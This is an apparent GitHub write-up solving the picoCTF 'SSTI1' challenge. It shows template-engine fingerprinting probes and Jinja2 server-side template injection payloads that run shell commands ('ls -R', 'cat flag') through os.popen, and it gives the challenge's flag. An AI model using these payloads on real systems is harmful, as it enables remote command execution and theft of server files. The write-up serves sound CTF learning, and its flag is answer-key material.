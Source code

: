 # [SSTI1 (Web Exploitation, Easy)](https://play.picoctf.org/practice/challenge/492) - Server Side Template Injection

- Description: I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:58745/)!


- Solution:
  1. Identify which template engine is being used by the application: Inject specific payloads and observe the response
  ```txt
  Jinja2 (Python Flask/Django): {{ 7*7 }}
  Freemarker (Java): ${7*7}
  Velocity (Java): #set($a = 7*7)${a}
  Thymeleaf (Java): ${7*7}
  Twig (PHP Symfony): {{ 7*7 }}
  Smarty (PHP): {$7*7}
  Mako (Python): <% print 7*7 %>
  ```
  <img width="507" height="137" alt="image" src="https://github.com/user-attachments/assets/d1bc2c5f-04d9-404e-97cb-3dd02227d879" />
  - Jinja2 is being used

  2. List out all working directories using this expression:
  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
  ```
  <img width="1275" height="550" alt="image" src="https://github.com/user-attachments/assets/f9a0367d-19a4-49bb-b261-7a8e629fdc3e" />

  3. Modify expression to get flag:
  ```txt
  {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
  ```
  <img width="969" height="44" alt="image" src="https://github.com/user-attachments/assets/c4ecbf03-6aba-4b07-bf5a-c1070f7c0614" />

- Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}`
- Explanation: Server Side Template Injection (SSTI)
  - Happens when a web application lets users to submit data that gets processed by a template engine on the server without proper validation
  - Template engines are used to generate dynamic content, however if user provided input is not sanitized, attackers can inject malicious code that the server executes
